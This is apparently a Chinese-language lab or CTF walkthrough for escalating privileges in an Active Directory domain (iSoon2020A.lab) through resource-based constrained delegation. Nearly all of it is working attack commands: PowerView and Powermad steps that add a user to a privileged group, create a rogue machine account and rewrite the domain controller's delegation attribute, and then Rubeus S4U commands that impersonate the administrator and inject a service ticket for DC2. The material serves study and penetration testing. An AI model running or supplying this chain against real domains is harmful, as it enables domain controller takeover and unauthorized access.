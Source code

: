 ![adfind2.png](https://i.loli.net/2020/12/05/i3fuFwzayY6IR57.png)


利用思路如下：


1. 登录`IT-ADMIN`账户，将某个域成员添加到`IT-OPS`组中
2. 此时该域成员继承了该组的权限，可对`DC2`写任意属性
3. 添加一个机器账户`evilcomputer$`
4. 修改`DC2`的`msds-allowedtoactonbehalfofotheridentity`属性，配置基于资源的约束委派


可以开启APP的远程桌面，这样便于操作，如果使用powershell的话要修改执行策略

将`IT-ADMIN`添加到`IT-OPS`组，并向域内添加`evilcomputer$`账户：

``` powershell
import-module .\powermad.ps1
import-module .\PowerView.ps1

# 将`IT-ADMIN`添加到`IT-OPS`组
Add-DomainGroupMember -Identity 'IT-OPS' -Members 'IT-ADMIN'

# 向域内添加`evilcomputer$`账户，密码为test1234
New-MachineAccount -MachineAccount evilcomputer -Password $(convertto-securestring "test1234" -AsPlainText -Force)
```

![addcomputer.png](https://i.loli.net/2020/12/05/7EjvYXGFM8DUA2h.png)

**注意：添加进特权组之后需要将账户注销再重新登录才生效**

配置基于资源的约束委派：

``` powershell
# 查询evilcomputer$的SID
Get-DomainComputer -Identity evilcomputer -Properties objectsid

# 为DC2配置基于资源的约束委派
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-490048132-1885274199-4253132943-3604)";
$SDBytes = New-Object byte[] ($SD.BinaryLength);
$SD.GetBinaryForm($SDBytes, 0);
Get-DomainComputer DC2 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![yueshuweipai.png](https://i.loli.net/2020/12/06/uZN5AyQ3B62razE.png)


申请访问DC2的CIFS服务的票据：

``` powershell
# 将evilcomputer$的密码转换为hash
Rubeus.exe hash /user:evilcomputer /password:test1234 /domain:iSoon2020A.lab

# 利用S4U2Self和S4U2Proxy协议申请DC2的CIFS服务的ST
Rubeus.exe s4u /user:evilcomputer$ /rc4:3B1B47E42E0463276E3DED6CEF349F93 /impersonateuser:administrator /msdsspn:cifs/dc2.iSoon2020A.lab /ptt
```
